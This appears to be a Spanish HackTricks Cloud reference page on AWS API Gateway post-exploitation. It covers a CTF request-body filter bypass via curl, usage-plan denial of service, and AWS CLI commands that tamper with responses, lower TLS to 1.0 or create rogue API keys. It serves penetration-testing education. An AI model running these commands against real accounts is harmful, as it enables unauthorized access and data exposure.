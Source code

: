 # AWS - API Gateway Post Explotación

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## API Gateway

Para más información consulta:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Acceso a APIs no expuestas

Puedes crear un endpoint en [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) con el servicio `com.amazonaws.us-east-1.execute-api`, exponer el endpoint en una red a la que tengas acceso (potencialmente a través de una máquina EC2) y asignar un grupo de seguridad que permita todas las conexiones.\
Luego, desde la máquina EC2 podrás acceder al endpoint y, por lo tanto, llamar a la API del gateway que no estaba expuesta anteriormente.

### Bypass Request body passthrough

Esta técnica fue encontrada en [**este writeup de CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Como se indica en la [**documentación de AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) en la sección `PassthroughBehavior`, por defecto, el valor **`WHEN_NO_MATCH`**, al verificar el encabezado **Content-Type** de la solicitud, pasará la solicitud al backend sin transformación.

Por lo tanto, en el CTF, el API Gateway tenía una plantilla de integración que **estaba impidiendo que la bandera fuera exfiltrada** en una respuesta cuando se enviaba una solicitud con `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Sin embargo, enviar una solicitud con **`Content-type: text/json`** evitaría ese filtro.

Finalmente, como el API Gateway solo permitía `Get` y `Options`, era posible enviar una consulta arbitraria de dynamoDB sin ningún límite enviando una solicitud POST con la consulta en el cuerpo y utilizando el encabezado `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Planes de Uso DoS

En la sección de **Enumeración** puedes ver cómo **obtener el plan de uso** de las claves. Si tienes la clave y está **limitada** a X usos **por mes**, podrías **simplemente usarla y causar un DoS**.

La **API Key** solo necesita ser **incluida** dentro de un **encabezado HTTP** llamado **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateGatewayResponse` y `apigateway:CreateDeployment` puede **modificar una respuesta de Gateway existente para incluir encabezados personalizados o plantillas de respuesta que filtren información sensible o ejecuten scripts maliciosos**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Filtración de información sensible, ejecución de scripts maliciosos o acceso no autorizado a recursos de API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateStage` y `apigateway:CreateDeployment` puede **modificar una etapa existente de API Gateway para redirigir el tráfico a una etapa diferente o cambiar la configuración de caché para obtener acceso no autorizado a datos en caché**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Acceso no autorizado a datos en caché, interrumpiendo o interceptando el tráfico de la API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:PutMethodResponse` y `apigateway:CreateDeployment` puede **modificar la respuesta del método de un método REST API de API Gateway existente para incluir encabezados personalizados o plantillas de respuesta que filtren información sensible o ejecuten scripts maliciosos**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Filtración de información sensible, ejecución de scripts maliciosos o acceso no autorizado a recursos de API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateRestApi` y `apigateway:CreateDeployment` puede **modificar la configuración de la API Gateway REST API para deshabilitar el registro o cambiar la versión mínima de TLS, debilitando potencialmente la seguridad de la API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Debilitar la seguridad de la API, permitiendo potencialmente el acceso no autorizado o exponiendo información sensible.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un atacante con permisos `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` y `apigateway:CreateUsagePlanKey` puede **crear nuevas claves de API, asociarlas con planes de uso y luego usar estas claves para acceder no autorizado a las APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impacto Potencial**: Acceso no autorizado a recursos de API, eludiendo controles de seguridad.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
